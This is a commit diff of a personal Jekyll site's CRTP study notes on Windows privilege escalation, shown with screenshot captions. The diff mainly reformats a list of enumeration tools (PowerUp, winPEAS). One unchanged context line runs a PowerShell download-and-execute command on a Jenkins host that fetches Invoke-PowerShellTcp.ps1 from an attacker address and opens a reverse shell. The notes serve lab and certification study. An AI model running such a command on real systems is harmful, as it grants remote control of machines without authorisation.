

Before and after one commit to Johnermac/Johnermac.github.io, a Jekyll site: the page built from _posts/notes/crtp/2023-12-15-winprivesc.md, in a window 1280 px wide and 900 px high, scrolled down 1655 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

````diff
--- a/_posts/notes/crtp/2023-12-15-winprivesc.md
+++ b/_posts/notes/crtp/2023-12-15-winprivesc.md
@@ -60,12 +60,14 @@ Get-ModifiableService -Verbose
 
 **Run all checks with automated tools** :
 ```powershell
-– PowerUp
-	Invoke-AllChecks
-– Privesc:
-	Invoke-PrivEsc
-– PEASS-ng:
-	winPEASx64.exe
+# PowerUp:
+Invoke-AllChecks
+
+# Privesc:
+Invoke-PrivEsc
+
+# PEASS-ng:
+winPEASx64.exe
 ```
 
 ## Feature Abuse
@@ -111,7 +113,6 @@ Find-PSRemotingLocalAdminAccess
 
 ```powershell
 on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443
-
 on Attacker> host the file in a webserver - example: HFS - HTTP File Server
 ```
 
````
